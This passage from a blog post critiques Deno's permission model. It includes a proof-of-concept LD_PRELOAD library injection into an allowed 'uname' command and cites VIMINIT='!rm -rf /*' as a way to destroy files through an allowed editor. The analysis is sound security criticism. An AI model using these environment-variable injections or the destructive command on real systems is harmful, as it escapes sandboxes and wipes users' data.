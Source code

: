 ```
$ cat t.c
#include <stdio.h>

// ask dynamic loader to run this function on load time pretty please
__attribute__((constructor)) void lol() {
    puts("lol");
}
$ cat t.ts
const command = new Deno.Command("uname", {
  // ask dynamic loader to load our evil library
  env: { 'LD_PRELOAD': '/tmp/tmp.7ofmKaNW83/liblol.so' },
});
const { code, stdout, stderr } = command.outputSync();
console.log(new TextDecoder().decode(stdout));
$ gcc -fPIC -shared t.c -o liblol.so
$ # that's the real uname now!
$ deno run --allow-run=uname t.ts
lol
Linux
```

I [reported this][#11964] some time ago and now they [patched it][#25271] by disallowing to set
environment variables starting with `LD_`. This, once again, fixes a specific issue while ignoring the larger
problem: “permission to run a single command” is mostly not a useful concept.
(You _can_ do secure interfaces by allowing to run a single command, like git-over-SSH does,
but generally both the environment and the command need to be prepared to handle it)

Say, for example, our script wants to invoke the `$EDITOR` so user can edit some data (think git commit messages). 
That’s a very natural permission request, and it’s also an unmitigated disaster because most editors are
configurable enough for running one to be a full sandbox escape. It’s easy for user to absent-mindedly
grant `--allow-run=vim` (“well, sure, I want to edit this file!”), but then the script can just set
`VIMINIT='!rm -rf /*'` and oops, all my files are gone. Most programs are configurable, often in some
ways you won’t think about (like `LD_PRELOAD`), and attacker controls the execution enviornment.
“Patch some specific ways to configure programs” is not the solution, the solution is to sandbox all the code,
not just JS code.

When we discussed all this stuff in GitHub issues, a Deno developer wrote:

> The main thing it protects you against is malicious code that isn't smart enough.

Upon reading this, I was enlightened.

[#11964]: https://github.com/denoland/deno/issues/11964
[#25271]: https://github.com/denoland/deno/pull/25271
[#11964-comment]: https://github.com/denoland/deno/issues/11964#issuecomment-2322993158

## Conclusions

Deno tries really hard to do what the operating system should be doing. It emulates syscall filtering by
filtering standard library calls. Unfortunately, this breaks down the second you need to run code
that doesn’t use Deno standard library. It also uses somewhat flawed approach to permission management
that _looks_ good (wow, runtime prompts! omg, I can just `--allow-run=uname`!), but introduces security
risks. In doing this, it implicitly requires user to understand all the implications of various permissions
and their combinations, which can be really hard.


[Deno]: https://deno.com
[#9666]: https://github.com/denoland/deno/issues/9666
[#9750]: https://github.com/denoland/deno/issues/9750
[#9750-comment]: https://github.com/denoland/deno/issues/9750#issuecomment-796702901